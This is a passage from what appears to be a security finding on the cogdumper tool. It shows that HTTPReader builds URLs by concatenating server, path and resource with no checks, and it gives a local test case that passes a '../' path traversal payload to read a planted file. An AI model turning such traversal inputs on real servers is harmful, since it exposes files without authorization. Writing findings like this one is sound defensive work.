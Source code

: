     5. In `HTTPReader.__init__`, the URL is constructed using f-strings by directly concatenating `server`, `path`, and `resource`.
    ```python
    class Reader(AbstractReader):
        """Wraps the remote COG."""

        def __init__(self, server, path, resource, user=None, password=None):
            self.server = server
            self.path = path
            self.resource = resource
            if path:
                self.url = f'{server}/{path}/{resource}'
            else:
                self.url = f'{server}/{resource}'
            ...
    ```
    6. This direct concatenation allows path traversal characters in `--path` or `--resource` to be passed to the HTTP server without any checks.

- **Security Test Case:**
    1. Step 1: Set up a simple HTTP server (e.g., using Python's `http.server` module) serving files from a directory.
    ```bash
    mkdir test_server_root
    echo "This is sensitive data" > test_server_root/sensitive_data.txt
    python -m http.server 8000 --directory test_server_root
    ```
    2. Step 2: Run the `cogdumper http` command with a path traversal payload in the `--path` parameter to attempt to access `sensitive_data.txt` which is located in `test_server_root`.
    ```bash
    cogdumper http --server http://localhost:8000 --path "../sensitive_data.txt" --resource dummy.tif --xyz 0 0 0 --output output.txt
    ```
    3. Step 3: Examine the `output.txt` file.
    4. Expected Result: If the path traversal is successful, `output.txt` will contain the content of `sensitive_data.txt`, which is "This is sensitive data". This confirms the path traversal vulnerability.